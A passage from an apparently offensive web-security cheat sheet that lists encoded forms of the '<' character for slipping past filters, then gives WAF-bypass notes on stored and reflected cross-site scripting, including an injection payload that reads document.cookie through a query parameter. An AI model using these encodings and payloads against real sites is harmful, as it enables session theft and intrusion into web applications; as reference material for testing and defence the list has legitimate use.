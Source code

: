 - `&#X03c`
- `&#X003c`
- `&#X0003c`
- `&#X00003c`
- `&#X000003c`
- `&#X3c;`
- `&#X03c;`
- `&#X003c;`
- `&#X0003c;`
- `&#X00003c;`
- `&#X000003c;`
- `&#x3C`
- `&#x03C`
- `&#x003C`
- `&#x0003C`
- `&#x00003C`
- `&#x000003C`
- `&#x3C;`
- `&#x03C;`
- `&#x003C;`
- `&#x0003C;`
- `&#x00003C;`
- `&#x000003C;`
- `&#X3C`
- `&#X03C`
- `&#X003C`
- `&#X0003C`
- `&#X00003C`
- `&#X000003C`
- `&#X3C;`
- `&#X03C;`
- `&#X003C;`
- `&#X0003C;`
- `&#X00003C;`
- `&#X000003C;`
- `\x3c`
- `\x3C`
- `\u003c`
- `\u003C`

## Methods to Bypass WAF – Cross-Site Scripting

### Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

### Reflected XSS in Javascript

```exmpale
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```
